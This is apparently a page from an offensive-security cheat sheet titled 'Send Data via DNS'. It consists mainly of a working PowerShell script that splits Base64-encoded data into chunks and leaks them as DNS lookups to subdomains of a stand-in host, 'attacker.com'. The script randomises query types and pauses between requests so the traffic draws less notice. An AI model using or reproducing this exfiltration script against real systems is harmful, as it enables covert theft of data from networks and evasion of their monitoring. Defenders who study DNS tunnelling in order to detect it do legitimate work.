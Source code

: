 # Send Data via DNS

For stealthier ways, it's a good idea to split the data you send and to randomize query types for each packet.  
Here is the PowerShell command to do that:

```powershell
# 1. Set our domain. (replace the "attacker.com" with own domain)
# Note: We must control "attacker.com" and configure its NS records to point to our own DNS server, such as "ns.attacker.com". This allows us to capture and inspect queries for subdomains like data.attacker.com.
$attackerDomain = "attacker.com"

# 1. Prepare a Base64 encoded data to send
$encodedData = "0123...DEF=="

# 2. Split the data
$chunkSize = 40
$chunks = ($encodedData -split "(.{1,$chunkSize})" | Where-Object { $_ -ne "" })

# 3. Randomize query types
function Get-RandomQueryType {
    $types = @("CNAME", "MX", "TXT")
    return Get-Random -InputObject $types
}

# 4. Perform DNS queries
$counter = 0
foreach ($chunk in $chunks) {
    $fqdn = "$counter-$chunk.$attackerDomain"
    $qtype = Get-RandomQueryType
    
    try {
        Resolve-DnsName -Name $fqdn -Type $qtype | Out-Null
    } catch {}

    $counter++
    Start-Sleep -Seconds 1
}
```

